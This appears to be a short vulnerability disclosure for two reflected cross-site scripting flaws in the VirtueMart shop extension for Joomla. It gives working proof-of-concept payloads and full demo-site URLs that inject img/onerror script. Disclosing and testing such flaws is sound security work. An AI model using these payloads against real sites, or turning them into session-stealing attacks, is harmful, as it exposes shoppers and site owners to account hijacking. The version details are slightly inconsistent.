


# Cross Site Scripting (XSS) in VirtueMart versions before < 4.4.10 for Joomla!

**CVE Link:** Pending

**VirtueMart:** https://virtuemart.net/download

## Introduction

### XSS 1
A unauthenticated reflected XSS vulnerability in VirtueMart extension 1.0.15 - 4.4.10 for Joomla was discovered.

## POC
Payload: `fghj">`

Final Payload: https://demo.virtuemart.net/?Itemid=606&keyword=fghj%2522%253E%253Cimg%2520src%3Dx%2520onerror%3D%2522self.alert(%27XSS%2520POC%27)%2522%2520class%3Dtest%253E&option=com_virtuemart&view=category&virtuemart_category_id=13

### XSS 2

## POC
Payload: `&#39;&#34;&gt;&lt;img/src/onerror=.1|alert``&gt;`

Final Payload: https://demo.virtuemart.net/list-orders.html?layout=list&view=%26%2339%3B%26%2334%3B%26gt%3B%26lt%3Bimg%2Fsrc%2Fonerror%3D.1%7Calert%60%60%26gt%3B

